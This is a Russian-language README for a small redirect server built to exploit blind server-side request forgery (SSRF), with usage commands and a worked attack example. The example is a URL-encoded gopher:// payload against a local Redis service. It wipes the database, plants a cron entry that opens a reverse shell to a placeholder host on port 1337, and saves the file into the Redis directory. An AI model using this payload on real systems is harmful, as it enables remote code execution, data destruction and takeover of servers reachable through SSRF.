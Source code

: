 # simpleRedirectServer

Этот код был написан специально для Blind SSRF.

В этом случае сервер будет слушать порт 8080 и перенаправлять все запросы на https://www.google.com
```
> python3 server.py 8080 https://www.google.com
```
Код статуса по умолчанию будет 302 (Found). Если вы хотите задать другой код статуса, вы можете добавить его в команду:
```
> python3 server.py 8080 https://www.google.com 301
```
Пример для Blind SSRF через [Gopherus](https://github.com/tarunkant/Gopherus). Все входящие запросы на наш IP:8080 заставят бекенд перенаправить запрос на внутренний сервис
```
> python3 server.py 8080 gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2469%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/x.x.x.x/1337%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2414%0D%0A/var/lib/redis%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```
